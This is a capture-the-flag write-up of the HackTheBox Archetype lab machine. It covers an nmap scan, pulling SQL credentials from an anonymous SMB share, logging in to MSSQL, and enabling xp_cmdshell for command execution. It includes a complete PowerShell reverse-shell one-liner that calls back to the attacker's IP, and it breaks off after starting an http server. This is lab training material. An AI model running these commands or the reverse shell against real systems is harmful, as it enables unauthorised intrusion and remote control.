




Starting with the writeups, today we will launch the HackTheBox Archetype machine that belongs to the Starting Point group here the writeup.


## Scan
We'll start with a simple port scan with nmap:
```shell
kyb3r@vizsla ~: nmap -sV -sC 10.10.10.27
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 14:34 CDT
Nmap scan report for 10.10.10.27
Host is up (0.10s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-08-17T19:53:47
|_Not valid after:  2051-08-17T19:53:47
|_ssl-date: 2021-08-17T19:59:07+00:00; +24m21s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h48m21s, deviation: 3h07m51s, median: 24m20s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-17T12:58:59-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-17T19:58:57
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.16 seconds
```

## SQL Server
We can notice that it contains a SQL Server which we are going to access with ```smbclient```.

We will list the smb folders with:
```shell
smbclient -L \\10.10.10.27 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

We will access the "**backups**" folder with:
```shell
smbclient -N \\10.10.10.27/backups
Try "help" to get a list of possible commands.
smb: \>
```


The file prod.dtsConfig contains:
```text
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

### Mssqlclient

The file contains some credentials which we will use with the impacket mssqlclient, if you use Kali Linux you can get it from ```/usr/share/doc/python3-impacket/examples/mssqlclient.py``` or you can download it from its [github](https://github.com/SecureAuthCorp/impacket) repo with:
```shell
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/mssqlclient.py
```
or with Kali Linux:
```shell
cp /usr/share/doc/python3-impacket/examples/mssqlclient.py .
```
When you have mss, start session to the server with the credentials obtained in prod.dtsConfig with:
```
kyb3r@vizsla:~$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

Password: M3g4c0rp123
Impacket - Copyright SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```


### xp_cmdshell
Now we will enable xp_cmdshell ("Spawns a Windows command shell and passes in a string for execution") to gain Remote Command Execution (RCE) with the following commands/codes:
```sql
EXEC sp_configure ‘Show Advanced Options’, 1;
reconfigure;
sp_configure;
EXEC sp_configure ‘xp_cmdshell’, 1
reconfigure;
xp_cmdshell “whoami”
```
When the SQL console returns, it means that we have done it correctly:
```sql
SQL> xp_cmdshell “whoami”
output

---------------------------

archetype\sql_svc

NULL

SQL>
```


## Reverse shell
Now we will create a file reverse shell with the extension ``.ps1`` for powershell here the code:
```powershell
$client = New-Object System.Net.Sockets.TCPClient(“YOUR IP”,443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + “# “;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Remember change "Your IP" text for u Hack The Box VPN ip adress, example:

Then we will start an http server with python:
```
python3 -m http.server
```